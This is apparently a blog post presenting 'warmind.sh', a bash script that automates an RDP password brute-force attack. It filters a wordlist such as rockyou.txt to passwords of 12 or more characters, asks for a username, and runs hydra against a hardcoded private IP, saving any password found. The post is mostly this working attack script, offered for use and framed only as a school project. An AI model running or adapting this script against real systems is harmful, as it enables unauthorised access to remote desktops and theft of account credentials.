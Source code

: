 ```yaml
---
layout: post
author: Gh0st-D3V
tags: [Automation, Scripting]
---
```


# warmind.sh
## Automation of an RDP bruteforce


The goal of this script is to automate a rdp bruteforce attack against a specific IP for a school project


## Warmind Steps

- Asks user for /path/to/wordlists they would like to use
- Warmind then greps out and saves all items 12characters to 16characters to a new list in the working directory to use againnst the IP
- Warmind then asks for a possible username to attack

## Upcoming changes


- Add option to use a file or single IP address instead of using hardcoded IP

---

## Code

```
#!/bin/bash

#Title: Warmind Rasputin
#Author: Gh0st-D3V
#Creation Date: 2/21/23
#Version: 0.2 Dev

if [ "$EUID" -ne 0 ]; then 
        echo "Warmind Access is limited to root users only"
        exit
fi

clear
echo "           @@@@@@@@@@@@@@@@@@@@@@@@@@# @.@ @@@@@@@@@@@@@@@@@@@@@@@@@@#"
echo "             ,@@@@@@@@@@@@@@@@@@@@@ @@@@.@@@./@@@@@@@@@@@@@@@@@@@@@"
echo "                @@@@@@@@@@@@@@@@# @@@@@@.@@@@@@ @@@@@@@@@@@@@@@@#"
echo "                  *@@@@@@@@@@@ %@@@@@@# .  @@@@@@@,(@@@@@@@@@@@"
echo "                             @@@@@@@ %@@.@@ (@@@@@@@"
echo "                          %@@@@@@#.@@@@@.@@@@% @@@@@@@,"
echo "                        @@@@@@@ &@@@@@@* &@@@@@@ (@@@@@@@"
echo "                     &@@@@@@#.@@@@@@@      ,@@@@@@% @@@@@@@."
echo "                   *@@@@@@@ @@@@@@@          %@@@@@@*.@@@@@@@."
echo "                      @@@@@@@**@@@@@@&     @@@@@@@ @@@@@@@("
echo "                        *@@@@@@@ @@@@@@@.@@@@@@*,@@@@@@@"
echo "                           @@@@@@@**@@@@.@@@@ @@@@@@@("
echo "                             /@@@@@@@ @@.@*,@@@@@@@"
echo "                                @@@@@@@/ @@@@@@@("
echo "                                  *@@@@@.@@@@@"
echo "                                     @@@.@@("
echo "                                       *.   "
echo " Rasputin Online!"
echo -n "Do you want to initiate warsats? (yes/no): "; read Console
if [ "$Console" = "yes" ]; then 
       echo  -n "Enter path/to/wordlist (/usr/share/wordlists/rockyou.txt): "; read path
        cat "$path" | grep -E '^.{12,}' > passlist.txt
        echo -n "Enter possible user credentials: "; read users
        sudo hydra -I -l "$users" -P passlist.txt -t 1 -F -V rdp://172.16.139.39 -o password 
        exec "$0"
elif [ "$Console" = "no" ]; then
        echo "Goodbye"
        sleep 3
        clear
        exit
else
        echo "Invalid selection"
        exec "$0"
fi
   
```
---
{: data-content="footnotes"}

